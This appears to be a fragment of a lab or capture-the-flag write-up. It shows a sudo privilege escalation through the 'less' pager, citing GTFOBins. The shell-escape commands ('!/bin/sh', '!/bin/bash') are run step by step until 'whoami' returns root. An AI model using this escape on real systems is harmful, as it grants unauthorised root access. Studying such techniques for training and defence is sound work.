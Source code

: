 `/usr/bin/less -F /opt/secret.txt`:
```
Dietro di lui, 
dietro di lui solo la nebbia.
```

<div>
	<img src="./assets/logo_gtfobins.png" alt="GTFOBins Logo" width="16" height="auto">
	<span style="color: white; font-size: 110%;"><strong>GTFOBins</strong></span>
</div>

[less](https://gtfobins.github.io/gtfobins/less)

[**#Sudo**]

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.
```
sudo less /etc/profile
!/bin/sh ←
```

![Victim: angie](https://img.shields.io/badge/Victim-angie-64b5f6?logo=linux&logoColor=white)

`stty rows 2 cols 100`

`sudo /usr/bin/less -F /opt/secret.txt`

`!/bin/bash`

![Victim: root](https://img.shields.io/badge/Victim-root-64b5f6?logo=linux&logoColor=white)

`whoami`:
```
root ←
```
